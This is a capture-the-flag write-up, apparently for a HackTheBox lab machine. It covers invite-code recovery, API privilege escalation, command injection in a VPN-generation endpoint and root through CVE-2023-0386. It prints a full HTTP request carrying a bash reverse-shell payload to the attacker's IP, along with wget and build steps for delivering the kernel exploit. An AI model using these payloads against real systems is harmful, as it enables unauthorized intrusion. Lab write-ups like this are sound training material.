# Resume
With an Nmap scan I found out that ports `22, 80` were open. To reach port `80` I had to add the site domain to the `/etc/hosts` file. After getting into the site I discovered it had an invite page that had exposed JavaScript functions, and one of them asked the back end for an invite code. Following the steps of the function I could retrieve an invite code. After I created an account I tried to access the `/api/v1` folder that returned all the `HTTP methods and requests` the API allowed. With a `PUT` request to `/api/v1/admin/settings/update` I could become an admin by sending the parameter `is_admin=1`, changing my user's privilege inside the API. Therefore, as an admin, I could then make a POST request to `/api/v1/admin/vpn/generate`. This POST request had an RCE vulnerability in the argument `username`, so I put the reverse shell code inside this RCE, which worked. Into the target I pivoted to user `admin` with credentials found in `/var/www/html/.env` and then caught the user flag. To privesc I found an email that suggested a CVE in the OverlayFS which needed immediate repair. Researching this CVE and following the steps I could get root and end the box.


# Nmap Scan 
The first nmap scan through all ports retrieved ports `22, 80` as the only open `TCP ports`.


I made a better, yet simple enumeration on those ports:


To access the site I needed to add the domain to the `/etc/hosts` file.

# Getting the invite code
I wanted to join as a user, I clicked here:



And was redirected to the `/invite` page:



Looking into the source code of this page, I found it was using JavaScript functions of a file called `inviteapi.min.js`. Accessing this file I realized it had JavaScript obfuscated code. So, to see through this obfuscation I used JavaScript beautifiers that I searched for on Google. Using the site, I found out that the API had a function called `makeInviteCode` which made a `POST` request to `/api/v1/how/to/generate`.

Making this request via Curl, it returned a JSON:


So I utilized CyberChef to decode this ROT13 and the output was:
```txt
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

I followed the step and received the invite code encoded as base64:


# Getting the reverse shell
I tried to navigate to the `/home` and didn't find much. Since I had no clue what to do next, I tried to enumerate the directories now that I am a logged in user with Feroxbuster.



The Feroxbuster found the page `/api/v1` that I was interacting with before, probably it has more information about the API functioning. I sent a request to this directory and received:


I tried to update my user settings with that `PUT` request and I utilized BurpSuite for that:


For it to work I needed to change the method, the content type and send the correct parameters, and then I was an admin on the API. I didn't know what exactly this would benefit me, but probably I couldn't make that admin post request before.

## Exploring the VPN generator
I tried to make the post request to `/api/v1/admin/vpn/generate` and I had to change again the content type of burp and send a username. I thought that maybe the input username here is not sanitized well enough and as it's being used to generate a `VPN` I should try an `RCE (Remote Code Execution)`.

I used the format `$(command)`, because using this as an input, the command is executed and after the function that used it as a parameter continues its functioning.



```HTTP
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=mrppkq2o12li7rpugnmiqa8upd
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/json
Content-Length: 81

{ 
	"username":"admin$(bash -c 'bash -i >& /dev/tcp/10.10.14.153/4444 0>&1')"
}
```

And it worked, giving me the reverse shell.
# Pivoting
After the reverse shell connected, I was the `www-data` user and didn't have enough permissions to catch the user flag. I needed some lateral movement and I could pivot by finding the credentials of the user admin in the `/var/www/html/.env` file.
```bash
cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

With these credentials I ran:
```bash
su - admin
```
Pivoted to the user admin and then caught the user flag.


# Privilege Escalation
It took some time to find something to privesc, but nothing seemed to work, until I read the `/var/mail/mail` file. That suggested the target had a Linux Kernel CVE exploiting OverlayFS that needed urgent repair, so I researched it online.



This OverlayFS CVE is CVE-2023-0386. I searched for it on GitHub and cloned the repository to my machine. I needed to run the command `make` in the target machine, because it utilized information about the OS and the kernel. To pass the cloned repository I first needed to compress it and then I would serve a Python server and use Wget in the target terminal to catch the files needed.

```bash
git clone https://github.com/puckiestyle/CVE-2023-0386.git
```

To pass all the files to the target machine I needed to compress the directory:
```bash
tar czf exploit.tar.gz CVE-2023-0386/
```

After that I started a Python server:
```bash
python3 -m http.server 8000
```

In the target machine:
```bash
wget http://10.10.14.153:8000/exploit.tar.gz

# created a directory for the exploit and decompressed it
mkdir -p vasco
mv exploit.tar.gz vasco/
tar xzf exploit.tar.gz

# made all the executables
cd CVE-2023-0386
make
```

Now the executables are made and I just needed to run the steps described here on the GitHub page:



I connected via SSH to create the other terminal with the credentials I found for the user `admin`.

I ran both commands and got root:

